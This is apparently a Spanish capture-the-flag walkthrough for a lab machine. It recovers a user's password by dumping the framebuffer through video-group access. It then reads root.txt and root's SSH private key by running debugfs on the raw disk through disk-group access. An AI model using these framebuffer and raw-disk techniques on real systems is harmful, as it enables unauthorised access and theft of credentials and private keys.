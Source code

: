 # User Pivoting (yossi)
## OS
```bash
whoami
sudo -l
id
cd /
for group in $(groups); do echo -e "[+] Listando archivos con el groupo $group asignado:"; find \-group $group 2>/dev/null; done
```

> /dev/fb0

Como estamos en el grupo video, podemos ver el **frame buffer** de capturas de pantalla. 

```bash
cd /tmp
cat /dev/fb0 > Captura
```

Aunque tenemos la captura no sabemos cuales son las proporciones.

```bash
cd /
cat $(find \-name "virtual_size" 2>/dev/null)
```

> Captura
> Proporciones: 1176, 885

Nos traemos el archivo "Captura" a nuestro equipo. Lo abrimos con **GIMP**. Lo abrimos como "dato de imagen en bruto", le asignamos las proporciones correctas, probamos distintos tipos de imagen hasta que se vea bien. Tenemos la captura. Y en esta aparece una contraseña.

> USER: yossi
> PASS: MoshePlzStopHackingMe!

# PrivEsc
## OS
```bash
sudo -l
cd / 
find \-perm -4000 2>/dev/null
for group in $(groups); do echo -e "[+] Listando archivos con el groupo $group asignado:"; find \-group $group 2>/dev/null; done
```

> Tenemos control del /dev/sda

```bash
debugfs /dev/sda1
cd root
cat root.txt
```

> root.txt

Si queremos una consola, en el directorio /root/.ssh/, abrimos la id_rsa, la copiamos y nos conectamos por **ssh**.
